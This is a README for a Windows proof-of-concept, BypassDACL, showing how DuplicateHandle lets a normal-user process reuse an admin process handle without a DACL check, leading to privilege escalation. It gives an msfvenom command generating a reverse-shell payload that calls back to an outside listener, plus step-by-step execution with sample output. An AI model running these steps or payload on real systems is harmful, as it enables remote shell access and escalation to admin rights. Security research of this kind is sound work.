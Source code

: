 # BypassDACL

PoC for Bypassing DACL in Windows using DuplicateHandle.

Read more about this code: [Security of Handles in Windows](https://glory-part-39d.notion.site/Security-of-Handles-in-Windows-caaa2531a0914ef0b7779ea366f69bcb).

This code demonstrates how to create a security hole in your program, potentially leading to privilege escalation.

**Note: This is a Proof of Concept (PoC) and is for educational purposes only.**

## Running the Code

### Generate Shellcode for AttackerPE.exe

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.148 LPORT=443 -f c -b \x00\x0a\x0d
```

Copy the generated shellcode into `AttackerSource.cpp` and compile it.
```C
unsigned char shellcode[] = "";
```

### Steps to Execute

1. Run `powershell.exe` with Admin privileges.
2. Run `notepad.exe` with normal user privileges.
3. Run `vendor.exe` with Admin privileges.

```sh
Vendor.exe
Enter the Process name that you want to get Handle (e.g., powershell.exe): powershell.exe
Enter the target Process name (e.g., notepad.exe): notepad.exe
[+] SeDebugPrivilege enabled successfully.
[+] PID of powershell.exe: 8420
[+] Handle of powershell.exe is OK
[*] Run Process Explorer and find handles of notepad.exe, then find a handle named powershell.exe
and write the address of the handle in AttackerPE code...
[*] Sleep(INFINITE). After running AttackerPE.exe, press Ctrl+C to exit.
```

4. Open **procexp64.exe** and copy the address of the handle (powershell.exe) from **notepad.exe**.
5. Run `AttackerPE.exe` with normal user privileges.

```sh
AttackerPE.exe <address> <process name>
AttackerPE.exe 0xFFFFB08D881EE080 notepad.exe
```

### Duplicate Handle and Bypass DACL Check

Duplicating a handle in the source process requires that the source process already has that handle, meaning the **DACL was checked** once during the handle's **Creation/Opening**. When duplicating a handle from the source to the destination process, no security checks are performed, It means that even the SID of the destination process is not checked with DACL.

## **References**

 [MSDN_DuplicateHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-duplicatehandle)

[security-briefs-exploring-handle-security-in-windows](https://learn.microsoft.com/en-us/archive/msdn-magazine/2000/march/security-briefs-exploring-handle-security-in-windows)

[process-security-and-access-rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)

Windows Internals Books

Windows Kernel Programming Book
